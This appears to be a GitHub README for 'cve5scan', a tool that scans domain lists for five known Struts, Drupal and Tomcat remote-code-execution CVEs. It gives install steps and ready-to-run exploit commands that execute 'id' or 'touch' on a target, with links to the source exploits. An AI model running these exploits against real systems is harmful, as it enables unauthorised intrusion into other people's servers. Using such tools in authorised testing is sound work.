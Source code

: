 *cve5scan*
==========
### 5 CVE scan and exploit
The mission of this program  the
Scanning list of domain from 5
known security vulnerabilities listed with the source below

# **Use** #
*Installation :* 

`sudo chmod +x setup.sh`

`sudo chmod +x cve5scan.sh`
               
`./setup.sh`

`Run: ./cve5scan.sh <domainlist.txt>`

If there is a result, it is stored in a output folder

![alt text](https://raw.githubusercontent.com/raoufmaklouf/cve5scan/master/Screenshot%20at%202020-02-05%2013-40-55.jpg)


# **exploit** #
*CVE-2017-5638 :* `python cve/struts-pwn/struts-pwn.py --url 'http://example.com/struts2-showcase/index.action' -c 'id'`

read more: cve/struts-pwn/README.md & https://github.com/mazen160/struts-pwn

*CVE-2017-9805 :* `python cve/struts-pwn_CVE-2017-9805/struts-pwn.py --exploit --url 'http://example.com/struts2-rest-showcase/orders/3' -c 'touch /tmp/struts-pwn'`

read more: cve/struts-pwn_CVE-2017-9805/README.md & https://github.com/mazen160/struts-pwn_CVE-2017-9805

*CVE-2018-11776 :* `python cve/struts-pwn_CVE-2018-11776/struts-pwn.py --exploit --url 'http://example.com/demo/struts2-showcase/index.action' -c 'id'`

read more: cve/struts-pwn_CVE-2018-11776/README.md & https://github.com/mazen160/struts-pwn_CVE-2018-11776

*CVE-2018-7600 :* `ruby cve/Drupalgeddon2-CVE-2018-7600.rb https://example.com`

read more: https://github.com/dreadlocked/Drupalgeddon2/


*CVE-2017-12617 :* `python cve/Tomcat-CVE-2017-12617.py -u http://example.com`

read more: https://github.com/cyberheartmi9/CVE-2017-12617

### CVE Supported ###
--struts-pwn :`CVE-2017-5638`   source: https://github.com/mazen160/struts-pwn

--struts-pwn :`CVE-2017-9805`   source: https://github.com/mazen160/struts-pwn_CVE-2017-9805

--struts-pwn :`CVE-2018-11776`  source: https://github.com/mazen160/struts-pwn_CVE-2018-11776

--Drupal     :`CVE-2018-7600`   source: https://github.com/dreadlocked/Drupalgeddon2/

--tomcat     :`CVE-2017-12617`  source: https://github.com/cyberheartmi9/CVE-2017-12617


# **Author** #
*raouf maklouf*
* Faebook: [https://www.facebook.com/raouf.maklouf]
* Linkedin: [https://www.linkedin.com/in/raouf-maklouf-505a061a0/]
